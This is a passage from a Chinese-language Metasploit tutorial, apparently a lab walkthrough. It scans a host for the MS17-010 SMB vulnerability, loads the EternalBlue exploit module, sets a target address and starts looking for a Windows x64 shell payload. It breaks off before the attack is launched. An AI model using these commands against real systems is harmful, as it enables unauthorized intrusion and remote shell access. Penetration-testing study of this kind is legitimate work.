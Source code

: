 ```shell
msf5 auxiliary(scanner/smb/smb_ms17_010) > run
```
::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320939.webp)
:::

显示“Host is likely VULNERABLE to MS17-010!（主机可能易受MS17-010攻击!） ”则表示该主机存在该漏洞。


**（7）返回，重新查找我们需要的攻击模块**

```shell
msf5 auxiliary(scanner/smb/smb_ms17_010) > back
msf5 > search ms17-010
```
::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320993.webp)
:::

**（8）同理使用模块，展示需要配置的参数**

```shell
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
```
::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320971.webp)
:::

**（9）配置参数，检查参数**

```shell
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.2.173
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
```
::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320966.webp)
:::

**（10）查看exploit target 目标类型**

```shell
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options
```
::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320999.webp)
:::

在这里插入图片描述

可以看到这个模块只有一个 target，所以默认就选择这个目标系统，不需要手动设置。

**（11）找一个 payload**，为了获取 shell 远程连接权限后，进行远程执行命令

```shell
msf5 exploit(windows/smb/ms17_010_eternalblue) > search windows/x64/shell type:payload
```
